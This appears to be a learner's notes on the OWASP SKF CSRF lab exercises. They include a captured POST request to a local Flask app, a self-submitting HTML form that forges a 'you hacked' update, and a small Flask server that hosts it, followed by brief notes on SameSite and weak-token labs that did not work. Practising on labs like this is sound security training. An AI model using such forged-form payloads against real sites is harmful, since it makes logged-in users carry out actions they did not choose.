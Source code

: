 ## [csrf-skf-python](https://skf.gitbook.io/asvs-write-ups/csrf/csrf)
# let's Practice
- login  and select your favorite color
- see packets in the burp 
- and find csrf point 
```http
POST /update HTTP/1.1
Host: 127.0.0.1:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Origin: http://127.0.0.1:5000
Connection: keep-alive
Referer: http://127.0.0.1:5000/login
Cookie: session=eyJsb2dnZWRpbiI6dHJ1ZSwidXNlcklkIjoxfQ.Z4l8-g.OHX5GkIYn0OJR6zfbtjuJicQ7kE
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

color=green
```
- we have all Conditions for csrf
	- used cookie 
	- simple http request
	- not csrf token
- generate html code for exploiting 
```html
<html>
  <body>
    <form action="http://127.0.0.1:5000/update" method="POST">
      <input type="hidden" name="color" value="you hacked" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

```python
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests


app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config['DEBUG'] = True

@app.route("/")
def start():
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

- when we visit page should redirect 127.0.0.1:5000/update 
- and see you hacked


# [Practice](https://skf.gitbook.io/asvs-write-ups/csrf-samesite/csrf-samesite)
not worked same site ..


# [Practice](https://skf.gitbook.io/asvs-write-ups/csrf-weak/csrf-weak)  csrf-token weak


# I don't know  now this type csrf
